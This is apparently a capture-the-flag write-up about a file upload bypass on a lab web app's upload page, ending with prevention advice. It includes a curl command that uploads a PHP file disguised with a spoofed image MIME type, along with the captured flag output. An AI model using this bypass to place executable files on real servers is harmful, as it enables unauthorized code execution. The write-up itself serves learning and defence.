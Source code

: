 # Overview

This document outlines the impact and prevention of a security breach involving file upload bypass vulnerabilities. Such vulnerabilities allow attackers to upload malicious files to a system, potentially leading to unauthorized access or control.

## Vulnerability Path
**http://<ip_address>/index.php?page=upload**

## Discovery

### How It's Usually Found

File upload vulnerabilities are typically discovered through security audits, penetration testing, and the use of automated scanning tools designed to identify security weaknesses in web applications.

### How I Discovered It

In the case of the `?page=upload` page, the vulnerability was discovered while attempting to upload different types of files. Initially, a `.php` file upload was attempted, resulting in a failure message. 

Then, using the command line, I executed a curl request to upload a file with a PHP extension, but modified the MIME type to `image/jpeg` to bypass the file upload validation:

```
curl -X POST -F "Upload=Upload" -F "uploaded=@file.php;type=image/jpeg" "http://127.0.0.1:8080/index.php?page=upload" | grep 'The flag is :'
```

The response indicated that the file was successfully uploaded, and the flag was retrieved, demonstrating the exploitation of the file upload vulnerability:

```
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3030    0  2739  100   291    544     57  0:00:05  0:00:05 --:--:--   719
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/file.php succesfully uploaded.</pre>
```

## Prevention

To prevent file upload vulnerabilities, consider the following measures:

1. **Validate File Formats and Extensions**: Implement server-side validation to ensure only files with approved extensions are uploaded. Avoid relying solely on client-side validation.

2. **Use File Upload Validation Frameworks**: Employ trusted frameworks specifically designed for secure file upload validation to cover all potential exploitation vectors.

3. **Enforce File Name Restrictions**: Sanitize uploaded file names to remove dangerous characters and prevent injection attacks. Renaming files upon upload can also mitigate directory traversal vulnerabilities.

4. **Limit File Size**: Set a maximum file size and number of files that can be uploaded to prevent denial-of-service attacks through resource exhaustion.

5. **Content-Type Verification**: Ensure that the MIME type of uploaded files matches expected types for the allowed extensions, adding an additional layer of validation.

## Additional Resources

For more information on mitigating file upload vulnerabilities, the following resources may be helpful:

- [OWASP Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
